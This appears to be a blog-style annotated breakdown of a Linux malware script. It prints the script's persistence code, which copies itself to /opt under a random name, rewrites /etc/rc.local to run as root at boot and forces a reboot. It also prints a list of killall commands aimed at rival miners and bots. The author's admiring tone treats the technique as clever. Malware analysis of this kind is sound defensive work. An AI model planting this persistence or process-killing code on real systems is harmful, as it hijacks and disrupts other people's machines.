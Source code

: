 ## Annotated Breakdown

Okay — there is a lot to unpack here. Let's proceed chronologically down the length of the script.

### Head
```bash
MYSELF=`realpath $0` # Find my location
DEBUG=/dev/null
echo $MYSELF >> $DEBUG
```
`realpath` is part of the GNU coreutils; it resolves the location of an entity in the filesystem while resolving all references and links. The functionality of `pwd`, in most cases, may be thought of as a subset of `realpath` in that respect. The above code is used to determine where the script itself resides upon execution.

### Privilege Escalation

```bash
if [ "$EUID" -ne 0 ] # If not running as root (or under sudo/doas)
then 
  NEWMYSELF=`mktemp -u 'XXXXXXXX'` # Generate a pseudorandom string 8 chars long
  sudo cp $MYSELF /opt/$NEWMYSELF # Copy this script to /opt with the name geenrated above
  sudo sh -c "echo '#!/bin/sh -e' > /etc/rc.local" # Start sh on boot...
  sudo sh -c "echo /opt/$NEWMYSELF >> /etc/rc.local" # ...So that this script can also be executed on boot
  sudo sh -c "echo 'exit 0' >> /etc/rc.local" # Stop whatever else may come afterwards
  sleep 1
  sudo reboot #Reboot so that the script may take effect *running as ROOT*
else
TMP1=`mktemp`
echo $TMP1 >> $DEBUG
```

This is a fantastic example of simple privilege escalation! The [**E**UID](https://linuxhint.com/difference-between-real-effective-user-id-in-linux-os/) is first checked — an EUID of zero indicates that the current privilege level is root, by way of actually running as the root account or elevation via `sudo` or `doas`. Not running as root presents issues for this script; the following steps are executed if so:

1. Generate a random string with mktemp.
2. Copy the script to /opt using the generated string as the filename.
3. Append sh (shell) and the script to `/etc/rc.local`, which will be executed on boot as root, *thereby running the script as root*.
4. Reboot.

Quite creative.

### Killing Processes

```bash
killall bins.sh
killall minerd
killall node
killall nodejs
killall ktx-armv4l
killall ktx-i586
killall ktx-m68k
killall ktx-mips
killall ktx-mipsel
killall ktx-powerpc
killall ktx-sh4
killall ktx-sparc
killall arm5
killall zmap
killall kaiten
```